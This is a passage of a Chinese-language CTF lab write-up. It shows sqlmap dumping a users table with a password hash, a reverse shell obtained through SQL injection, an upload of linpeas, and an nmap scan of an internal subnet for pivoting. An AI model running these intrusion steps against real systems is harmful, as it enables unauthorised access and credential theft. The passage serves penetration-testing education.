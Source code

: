 ```bash

// 通过 sqli 注入获取到用户名可惜是加密内容, 但是从源码中我们得到了 solt 我们可以进行解密
root@ip-10-10-235-60:~# sqlmap -r borderlands/sql.txt --risk 3 --level 3 -D myfirstwebsite -T users --dump
+--------+----------+--------------------------------------------------------------+
| userid | username | password                                                     |
+--------+----------+--------------------------------------------------------------+
| 1      | billg    | $2y$10$wWeyIzGcD7TVwZ7y7d3UCO5eEssZShTQzBU2yIebvvQQw1y676zVW |
+--------+----------+--------------------------------------------------------------+
```

![image-20240709203341191](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-203342.png)

## 后渗透

![image-20240709203355329](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-203357.png)

### www-data (172.18.0.2/172.16.1.10)

利用 sqli 来获取一个 Shell, 并进行获取反向 Shell

![image-20240709203408189](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-203409.png)

之后因为没有找到提权的地方我上传了 [linpeas.sh](http://linpeas.sh) 来进行操作 , 从中获取到一些关键信息

- 存在多个网段, 结合上面的网络拓扑来看我们要进行端口转发了
- 上传 nmap 对发现的主机网络进行扫描

```bash
# 网络信息
# symbolic names for networks, see networks(5) for more information
link-local 169.254.0.0
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
17: eth0@if18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
23: eth1@if11: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UNKNOWN group default 
    link/ether 02:42:ac:10:01:0a brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.16.1.10/24 brd 172.16.1.255 scope global eth1
       valid_lft forever preferred_lft forever

# 进行端口扫描
(remote) www-data@app.ctx.ctf:/tmp$ ./nmap -sT -p- --min-rate 1000 172.16.1.10/24

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-11-04 04:23 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for app.ctx.ctf (172.16.1.10)
Host is up (0.00012s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for hackback_router1_1.hackback_r_1_ext (172.16.1.128)
Host is up (0.00015s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
179/tcp  open  bgp
```